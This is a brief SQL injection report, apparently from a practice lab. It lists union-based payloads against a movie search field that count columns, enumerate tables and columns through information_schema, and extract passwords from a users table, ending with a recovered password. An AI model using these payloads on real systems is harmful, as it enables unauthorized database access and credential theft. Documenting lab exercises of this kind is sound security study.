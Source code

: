 # Report

## SQL Injection Attempts

1. `'Iron Man' order by 7-- -`
   - Error encountered at: `'Iron Man' order by 8-- -`

2. `'Iron Man' union select 1,2,3,4,5,6,7-- -`

3. `'Iron Man' union select 1,2,3,4,database(),6,7-- -`

4. `'Iron Man' union select 1,2,3,4,(table_name),6,7 from information_schema.table_constraints-- -`

5. `'Iron Man' union select 1,2,3,4,(column_name),6,7 from information_schema.columns where table_name='users'-- -`

6. `'Iron Man' union select 1,2,3,4,(password),6,7 from users-- -`

Password: `bug`
